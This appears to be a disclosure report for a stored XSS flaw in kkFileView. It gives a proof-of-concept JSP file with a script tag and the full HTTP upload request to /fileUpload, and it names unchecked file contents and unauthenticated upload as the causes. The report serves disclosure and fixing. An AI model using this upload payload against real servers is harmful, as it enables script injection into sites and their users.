





# KkFileView has XSS vulnerability



After visiting the Web page, KKfileview project first selects the browse button to add relevant files, and then clicks the upload button.
The added file is a JSP file containing malicious JS statements. The contents of the file are as follows:

```html
<html>
<title>test ip</title>
<body>
<script>
alert('x')
</script>
</body>
</html>
```

The request packet is as follows

```
POST /fileUpload HTTP/1.1
Host: 192.168.17.168:8012
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------199653466720897274883663154374
Content-Length: 322
Origin: http://192.168.17.168:8012
DNT: 1
Connection: close
Referer: http://192.168.17.168:8012/index

-----------------------------199653466720897274883663154374
Content-Disposition: form-data; name="file"; filename="x.jsp"
Content-Type: application/octet-stream

<html>
<title>test ip</title>
<body>
<script>
alert('x')
</script>
</body>
</html>

-----------------------------199653466720897274883663154374--
```



Then view the address of the uploaded file under the file name address  `demo/x.jsp`



The file can be accessed directly by concatenating the URL, and the malicious JS file can be executed



View the `server\ src \main\ Java \cn\keking\web\controller\ Filecontroller.java` 



The reasons for this vulnerability are as follows:
1) The fileUpload method determines only the file name but not the contents of the file
2) The file upload path is not authenticated